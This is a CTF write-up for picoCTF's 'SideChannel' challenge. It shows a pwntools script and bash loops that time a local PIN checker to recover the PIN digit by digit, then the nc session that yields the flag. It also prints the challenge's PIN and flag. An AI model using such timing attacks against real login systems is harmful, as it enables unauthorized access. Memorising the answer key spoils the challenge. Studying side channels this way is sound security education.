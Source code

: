 # SideChannel   

## Description

There's something fishy about this PIN-code checker, can you figure out the PIN and get the flag?
Download the PIN checker program here [pin_checker](https://artifacts.picoctf.net/c/145/pin_checker)
Once you've figured out the PIN (and gotten the checker program to accept it), connect to the master server using nc saturn.picoctf.net 52680 and provide it the PIN to get your flag.


## Hint(s)

1. Read about "timing-based side-channel attacks."
2. Attempting to reverse-engineer or exploit the binary won't help you, you can figure out the PIN just by interacting with it and measuring certain properties about it.
3. Don't run your attacks against the master server, it is secured against them. The PIN code you get from the pin_checker binary is the same as the one for the master server.

## Writeup 

As the name suggests, this name is about timing-based attacks. 
**Make sure you read about the attack [here](https://medium.com/spidernitt/introduction-to-timing-attacks-4e1e8c84b32b)**

Anyway, we are given an executable file. We have to figure out how much time it takes for the file to return an answer after we input our PIN code. 
Time to get coding!

I found this script from this [write-up](https://dev.to/lambdamamba/ctf-writeup-picoctf-2022-forensics-55p3#side). This script does the job perfectly :
```py
from pwn import *
import time
import sys

io = process(['./pin_checker'])
context.arch = 'amd64'
gs = '''
continue
'''

pin = str(sys.argv[1])


io.sendline(pin)

io.recvline()
io.recvline()
io.recvline()

start = time.time()
recevied4 = io.recvline()

stop = time.time()
time_taken = stop - start

log.info(f"Time taken: {time_taken}")
log.info(f"Received4: {recevied4}")
log.info(f"Guess: {pin}")

sys.exit()
```
We can start with inputting 100000000 which returns : 

```
$ python3 exploit.py 10000000                                                                             
[+] Starting local process './pin_checker': pid 1508
[*] Time taken: 0.3032264709472656
[*] Received4: b'Access denied.\n'
[*] Guess: 10000000
[*] Stopped process './pin_checker' (pid 1508)
```
Now, If we were to manually run the script over and over it'd take a long time. So i wrote a simple bash script that does this for us.
```sh
#!/bin/bash

python3 exploit.py 00000000
python3 exploit.py 10000000
python3 exploit.py 20000000
python3 exploit.py 30000000
python3 exploit.py 40000000
python3 exploit.py 50000000
python3 exploit.py 60000000
python3 exploit.py 70000000
python3 exploit.py 80000000
python3 exploit.py 90000000
```
Now running this returns : 
```
[+] Starting local process './pin_checker': pid 1544

[*] Time taken: 0.1728212833404541
[*] Received4: b'Access denied.\n'
[*] Guess: 00000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1544)
[+] Starting local process './pin_checker': pid 1548

[*] Time taken: 0.1890273094177246
[*] Received4: b'Access denied.\n'
[*] Guess: 10000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1548)
[+] Starting local process './pin_checker': pid 1552

[*] Time taken: 0.20344209671020508
[*] Received4: b'Access denied.\n'
[*] Guess: 20000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1552)
[+] Starting local process './pin_checker': pid 1556

[*] Time taken: 0.2079334259033203
[*] Received4: b'Access denied.\n'
[*] Guess: 30000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1556)
[+] Starting local process './pin_checker': pid 1560

[*] Time taken: 0.3650705814361572
[*] Received4: b'Access denied.\n'
[*] Guess: 40000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1560)
[+] Starting local process './pin_checker': pid 1564

[*] Time taken: 0.1933596134185791
[*] Received4: b'Access denied.\n'
[*] Guess: 50000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1564)
[+] Starting local process './pin_checker': pid 1568

[*] Time taken: 0.196638822555542
[*] Received4: b'Access denied.\n'
[*] Guess: 60000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1568)
[+] Starting local process './pin_checker': pid 1572

[*] Time taken: 0.1914525032043457
[*] Received4: b'Access denied.\n'
[*] Guess: 70000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1572)
[+] Starting local process './pin_checker': pid 1576

[*] Time taken: 0.19887447357177734
[*] Received4: b'Access denied.\n'
[*] Guess: 80000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1576)
[+] Starting local process './pin_checker': pid 1580

[*] Time taken: 0.1977241039276123
[*] Received4: b'Access denied.\n'
[*] Guess: 90000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1580)
```

As we can clearly see, **40000000** took the longest time. 
Then we update our bash script
```sh
#!/bin/bash

python3 exploit.py 40000000
python3 exploit.py 41000000
python3 exploit.py 42000000
python3 exploit.py 43000000
python3 exploit.py 44000000
python3 exploit.py 45000000
python3 exploit.py 46000000
python3 exploit.py 47000000
python3 exploit.py 48000000
python3 exploit.py 49000000
```

We keep doing this untill we get the right pin!
```
[+] Starting local process './pin_checker': pid 1619
[*] Time taken: 1.5294091701507568
[*] Received4: b'Access granted. You may use your PIN to log into the master server.\n'
[*] Guess: 48390513
[*] Process './pin_checker' stopped with exit code 1 (pid 1619)
```
And then we connect to the master server,
```
nc saturn.picoctf.net 52680
```
Input the PIN code and get the flag!
```
$ nc saturn.picoctf.net 52680
Verifying that you are a human...
Please enter the master PIN code:
48390513
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_914c5ec3}
```

One of my favorite challenges so far. The concept of time based attacks is just amazing.
